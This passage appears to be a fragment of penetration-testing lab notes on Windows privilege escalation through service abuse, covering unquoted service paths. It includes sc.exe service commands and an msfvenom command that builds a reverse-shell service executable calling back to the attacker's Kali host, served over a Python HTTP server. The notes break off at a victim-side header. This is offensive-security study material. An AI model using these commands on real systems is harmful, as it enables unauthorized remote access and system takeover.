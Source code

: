 **Victim(Powershell)**

```
sc.exe stop windowsscheduler
sc.exe start windowsscheduler
```

<figure><img src="../../.gitbook/assets/image (31) (2).png" alt=""><figcaption></figcaption></figure>

### Unquoted Service Paths





**Victim(cmd)**

```
 sc qc "disk sorter enterprise"
```

<figure><img src="../../.gitbook/assets/image (12) (2) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4446 -f exe-service -o rev-svc2.exe
python2 -m SimpleHTTPServer 81
```

**Victim(Powershell)**
